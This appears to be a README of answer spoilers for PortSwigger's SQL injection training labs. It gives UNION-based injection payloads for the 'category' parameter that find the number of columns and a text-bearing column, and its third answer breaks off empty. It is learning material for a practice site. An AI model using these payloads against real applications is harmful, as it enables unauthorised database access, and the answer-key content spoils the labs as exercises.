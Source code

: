 # [SQL Injection Labs](https://portswigger.net/web-security/all-labs)

This contains answers and spoilers to all of PortSwigger's SQL Injection labs.
Do not read unless explicitly looking for exact answers

## UNION - Determine number of columns

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
      
      category=' UNION SELECT NULL,NULL,NULL--
  
</details>

## UNION - Find column containing text

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
 
 Identify number of columns by appending NULL to UNION SELECT string:  
  
     category=' UNION SELECT NULL,NULL,NULL--
      
 Replace NULL with string to identify column:
  
     category=' UNION SELECT NULL,'[STRING]',NULL--
      
</details>

## UNION - Retrive data from other tables

<details> 
  <summary> <b> ANSWER SPOILER ALERT </b> </summary>
   
     category=

</details>
